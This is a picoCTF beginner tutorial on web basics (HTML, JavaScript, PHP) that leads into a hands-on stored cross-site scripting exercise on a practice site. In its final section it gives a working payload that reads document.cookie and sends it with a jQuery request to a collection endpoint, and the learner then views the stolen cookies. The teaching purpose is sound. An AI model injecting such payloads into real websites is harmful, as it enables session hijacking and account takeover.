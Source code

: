 

== Web Exploits

At this point, you have already learned python, so you have an idea on how a programming language works. We are more than ready to begin to learn Web!

=== Html

Before diving into Web Exploits, you need to understand how a website works. Many years ago, the web was used to visit static pages that did not have interactive features. They just showed information. To do a static page, it is enough to write some lines of HTML. What is HTML? First of all, it is not a programming language. Html means HyperText Markup Language, and we use it to determine the font size, colors, margins, or similar features in a web page. When an html file is accessed in a browser like Firefox, Chrome or whatever browser you like, the browser presents the text according to the html on it. Your browser can access an html file locally. Locally means that the file could be in your laptop ́s file system. Also, it could access the file remotely through the Internet. Let’s see an example of creating a simple html and access it locally:


. On your computer, create a folder called “picoexample” and then, inside that folder, create a text file and name it “myFirstPage.html”. You can do this on Notepad on Windows, Textedit on Mac, or any text editor from Linux. It is important that the extension is “.html”. It cannot be ”.html.txt” or something that is not exactly “.html”. If you don’t see the extension in your operating system, this is a good opportunity too google how to make it appear to be able to modify it. Remember, for this simple obstacles that might appear along the way, google is the answer.

. Edit the content in a text editor and write: Hello World!

. Save the file

. Open the file in any browser. To do that, you can right click on the file, and then select “open width” and choose the browser you want. You should see a page like the following:


[.text-center]
image:images/image13.png[image,width=624,height=496]

. Now, in the text editor, modify the content of the file and replace the text by: <b>Hello World!</b>
. Save the file on the text editor. Then, open the file in the browser again, or you can simply click refresh on your browser. Since it already has opened the file, you will see the message in bold, in page similar to this:

[.text-center]
image:images/image27.png[image,width=624,height=496]


You just created a page with a very simple HTML that made your message appeared in bold. Note that <b> is the opening tag, </b> is the closing tag. Analyze the difference between the opening and closing tag. What do you see? The closing tag is usually the same as the opening tag, but you include “/” like we just did. We just used an html tag to tell the browser we want some specific text in bold. Html is just a bunch of tags that allow us to do similar things.

Now let’s make a page with more fields so you can get a sense of more tags and of the structure of a bigger page. Use the following HTML code to replace the content of the file you are editing:




[source,html]
<html>
<header>
   <title>This is a picoCTF html Example</title>
</header>
<body>
   <h1>This is a Heading</h1>
   <h2>This is a smaller Heading</h2>
   <p>This is a paragraph.</p>
   The following is an image:<br>
   <img src="picologo.png" />
</body>
</html>


Now, as we were doing before, save the file in the text editor and click refresh on the browser. You probably see something like this:

[.text-center]
image:images/image17.png[image,width=624,height=496]

If you read the html code and try to analyze its content, you would realize the following:

* The title shown in that tab of the browser “This is a picoCTF html Example”, appears there because you put that text inside in the <title></title> tags.
* <h1> Is used to create a big heading
* <h2> creates a heading a little smaller than <h1>
* The <header> tags are used to group introductory content, in this case the title, but if you remove this tag, you will not see much change in our page. Do the experiment of removing it. If you only remove the opening or closing tag, that would cause and html error, so make sure to delete the opening tag and closing tag.
* The <body> tags are used to group the main content of the page. Also, if you remove them, you will not see much change in our page.

Now, you must have noted the <img> tag is not showing any image as it should. Why? Let’s analyze the element img:

[source,html]
<img src="picologo.png" />

First you see there is not opening or closing tag, there is just one tag. This is ok for an image. As you can see, it has an *attribute* called ”src”, which means source. We are assigning to “src” the value “picologo.png”. Our html is gonna try to access a file called “picologo.png” in the same folder as “myFirstPage.html” is contained, which is the folder we name at first “picoexample”. There is no image called “picologo.png”, so the browser has nothing to show. Copy and paste an image to the folder and name it “picologo.png”. Don’t forget that the extension has to be ”.png”. If you successfully created the image “picologo.png” in the folder, and refresh the browser, you will see the following, of course, with your own custom image:

[.text-center]
image:images/image22.png[image,width=624,height=496]

A fundamental part of web site are the links. The link tag is *<a>*, the following is an example of a link directed to google:

[source,html]
<a href="http://google.com" > Go to google! </a>

Use that element and put it in your code to make a link to the web site you want. Now practice by adding more html tags and images in your page! This is a reference in which you can find more html tags:

https://www.w3schools.com/tags/[https://www.w3schools.com/tags/, window="_blank"]


=== JavaScript

To make pages more interactive, JavaScript is commonly used. JavaScript is a programming language! We can do algorithms using it. JavaScript is executed in your browser. For example, when you visit a website, the JavaScript code is downloaded along the HTML and it only executes once it is loaded in your browser. When you visit a page, you are downloading an html file and your browser interprets the tags and prints the text and images as we learned before. This image illustrates that process:

[.text-center]
image:images/image26.png[image,width=624,height=357]

If that file happens to contain JavaScript, your browser will execute it. Let’s look at an example. In the same folder “picoexample”, create a file called “myFirstJS.html“ using a text editor. Then, put the following content in the file:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            alert("Hello picoCTF");
        </script>
    </header>
    <body>
        <h1>JavaScript example</h1>>
    </body>
</html>


Save the file. As soon as you open the page, you will see an alert showing “Hello picoCTF”, something like this:

[.text-center]
image:images/image5.png[image,width=624,height=496]

If you analyze the file, you will note that the magic is happening in this element:

[source,html]
<script>
    alert("Hello picoCTF");
</script>

Whatever you put inside the tags “<script> </script>” will be tried to execute by the browser. Since JavaScript is a programming language, we should be able to do some arithmetic. Replace the string “Hello picoCTF” by an arithmetic operation, like 8*8, like this:

[source,html]
<script>
    alert(8*8);
</script>

Note that we only use quotes when we want to use a string. In arithmetic operations we don’t use quotes. Save the file, and refresh the browser as we always do. You should see the following:

[.text-center]
image:images/image18.png[image,width=624,height=496]

Click Ok in the alert message to make it go away. Anything you write in JavaScript or html, will be visible for any user that access your page in a browser. To see the html and Javascript code in your browser, right click the page and then “View Page Source”

[.text-center]
image:images/image10.png[image,width=402,height=296]

You will see the javascript code you just wrote:

[.text-center]
image:images/image6.png[image,width=474,height=376]

This is a very important thing! Never put a secret in your javascript code. If someone does it, that will be an open door for hacking.

Now let’s use some more elaborated code. We are going to make a page that adds two numbers input by the user and shows the result in an alert. The code is the following:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            function myFunctionSum(){
                var number1 = document.getElementById("number1").value;
                var number2 = document.getElementById("number2").value;
                var result = number1 + number2;
                alert(result);
            }
        </script>
    </header>
    <body>
        <h1>JavaScript example to add2 numbers</h1>
        Input the first number<br> 
        <input type="text" id="number1"  ><br>
        Input the second number<br> 
        <input type="text" id="number2" ><br>
        <button onclick="myFunctionSum()"> Show alert! </button>
    </body>
</html>

Put it on a text file and save it and open it on a browser as usual. You should see this:

[.text-center]
image:images/image3.png[image,width=492,height=390]

If you put the numbers in each text field, and click “show alert!”, you will see the alert with the result. For this example let’s input 4 and 2 in the text fields, you should see:

[.text-center]
image:images/image23.png[image,width=510,height=405]

Now that you know what the code does, let’s analyze the new lines of the code. In this line we have an input tag:

[source,html]
<input type="text" id="number1" ><br>

As you can see, it is of type text, and it has an “id” equal to “number1”. This “id” is something we arbitrarily define to be able to access the content of this text input in JavaScript. This line:

[source,html]
<button onclick="myFunctionSum()"> Show alert! </button>

Is responsible for calling the function “myFunctionSum()” when the button is clicked. The function has to be defined inside the script tags. With your knowledge of programming, you should be able to read the function and understand at a general level what each line is doing:

[source,javascript]
function myFunctionSum(){
    var number1 = document.getElementById("number1").value;
    var number2 = document.getElementById("number2").value;
    var result = number1 + number2;
    alert(result);
}

Modify the file to multiply the two numbers. When you are done, include a new third input number! At this point you should be able to do it on your own. Be careful with the syntax, remember that a single character wrong will break the whole code.

=== Server code

As we said previously, javascript is executed only in the browser. But, what if you want to do calculations and store data in the remote server? For example, when you login into a Website, your user and password has to be verified on the server. The password is stored in the server and should not travel outside of it for the sake of security. If you would verify a password on JavaScript, you would be able to see it on your browser in the same way you can see any JavaScript. There are several programming languages that can be executed on the server, for example:

* Python
* Java
* PHP
* C
* C Sharp
* And many more...

For our examples, we will begin using PHP, not because we think is a great language, but because most of the websites on the Internet use it and it is very easy to learn and deploy. As a hacker, you would generally have to learn all the languages you can because different Websites are made on different languages, as well as CTF challenges that try to simulate real life! The more a language is used, the more likely you will have to attack a website made with it. However, the vulnerabilities we will be explaining can happen in any programming language, because they are not a fault of the language, but a fault of the programmer that did the website.

Suppose you have a text file named hello.html, containing:

[source,html]
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
    echo "Hello World from PHP!";
?>

If the server supports PHP, everything inside *<?php ?>* will be understood as PHP code and run by the server, not by the browser.

Look at the following image carefully to understand what happens:

[.text-center]
image:images/image36.png[image,width=624,height=345]

If you open a file with that content on your laptop, the PHP code will not be executed, because your laptop is not a PHP server (if you have not made it one). So, to execute PHP you need to make your laptop a server. But for the time being, we can use the following:



https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro[https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro, window="_blank"]

Access that link, and you will see an html file with PHP code, that when is run, prints "My first PHP script!". Modify the code to additionally print the date, so below the line

[source,php]
echo "My first PHP script!";

Add the line

[source,php]
echo date("H:i:s");

According to what you have learned so far, that time is from the clock on your computer? Or the time of the clock in the server?

...PHP is server side code, so that time is from the clock on the server!

Now let’s make an experiment, and add another line with this php code:

[source,php]
echo "<script> alert('Hello World from JavaScript!'); </script>";

That string echoed in PHP, has javascript code. Is the JavaScript alert shown? What happened? As expected, anything printed on php, will become an integral part of the html downloaded file, so the javascript will be executed. This opens the door for the famous attack of Cross Site Scripting (XSS).

=== Cross Site Scripting (XSS)

After you Login into a Website, the Website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again. To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in javascript local storage. For this example, let’s pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a Website sets a specific cookie in your browser, your browser automatically re-sends that cookie in each request to the website. If a Website only uses cookies to retain a session, and if a hacker can steal the authentication cookie from you, they could pretend to be you! At least until the cookie expires. Note that only using cookies for autentication will open the possibility of Cross Site Request Forgery (CSRF), but this will be explained later, for now let’s focus on XSS.

Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input javascript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually javascript code, so the browser might execute that javascript code. In that way, you could execute your own javascript on your friend’s browser!

When you get to execute javascript in someone else’s browser, you can read their authentication data, which can be a secret value placed on a cookie or javascript local storage after a user login. At that point, your friend’s account would probably be compromised!

An important skill to have, is to use the browser debugger. For this explanation we will use Firefox. You can download an install Firefox here:

https://www.mozilla.org/en-US/firefox/new/[https://www.mozilla.org/en-US/firefox/new/, window="_blank"]

Note: If you really don’t want to use Firefox, every browser has a debugger, so you just have to google how to use it. It will not be that different.

Using Firefox, input your name and some text in the description in the following link:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

Open another tab and visit the following link. You should see your name and description:

http://primer.picoctf.com/vuln/web/tableusers.php[http://primer.picoctf.com/vuln/web/tableusers.php, window="_blank"]


Now, in the Firefox Menu, click “Web Developer” and then click “Debugger”. You should see a pane like the following:

[.text-center]
image:images/image15.png[image,width=624,height=446]

In that pane, click “storage”. At the left click “cookies” and click the domain you are currently on. You will see a cookie that has your name in the value!

[.text-center]
image:images/image25.png[image,width=624,height=370]

You can only see your cookie. Other users would see their cookie with their name. For this experiment, you will steal your own cookie. But with the same method, you could steal the cookie of someone else.

For now, access this link again:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

Create a new user that has your name, but instead of the description has the following code:

[source,html]
<script> alert('I just injected Javascript!'); </script>

If you navigate this link again, you will see your javascript code triggered:

http://www.samuelsabogalpardo.com/pico/tableusers.php[http://www.samuelsabogalpardo.com/pico/tableusers.php, window="_blank"]

Like this:

[.text-center]
image:images/image16.png[image,width=624,height=370]

You just verified that you can inject javascript in the website. Now we are going to inject javascript that will steal the cookie. Create another user in the same link for creating users:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

But now, put this JavaScript code in the description:

[source,html]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "http://primer.picoctf.com/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>

Let’s understand the code. The first line, imports a library called jquery that allow us to do requests and send data from javascript to a service:

[source,javascript]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>

Then, we are just sending the cookie to a remote service that is made to receive cookies from this exercise. That service receive two variables: “cookie” and “hackername”. The value of the variable cookie will be “document.cookie”. Here, instead of “=”, we use “:” to assign a value to a variable. Using document.cookie you access the cookies from javascript, so that should contain the cookie you want to steal. The variable hackername simply has assigned a name. You could replace the string “YourName” with your actual name. Remember that a string has to be inside quotes in javascript.

The function:
[source,javascript]
function(data){
    alert("I just stole the cookie!");
}

Is simply a function that will be executed after the request is sent to the service, and will alert a message.

Now visit this site again:

http://primer.picoctf.com/vuln/web/tableusers.php[http://primer.picoctf.com/vuln/web/tableusers.php, window="_blank"]

When a user visits that site is when the javascript is executed and the cookie stolen. You should see the message:

[.text-center]
image:images/image14.png[image,width=624,height=380]

If you injected scripts previously, all those scripts are stored in the web site, and will be executed in the order you injected them when the page that prints them is visited.

Now you should be able to see the cookie you stole here:

http://primer.picoctf.com/vuln/web/tablestolen.php[http://primer.picoctf.com/vuln/web/tablestolen.php, window="_blank"]

[.text-center]
image:images/image21.png[image,width=624,height=380]

At this point you should have some understanding on how a website works. You are ready to begin to do more challenges on the pico gym for Web!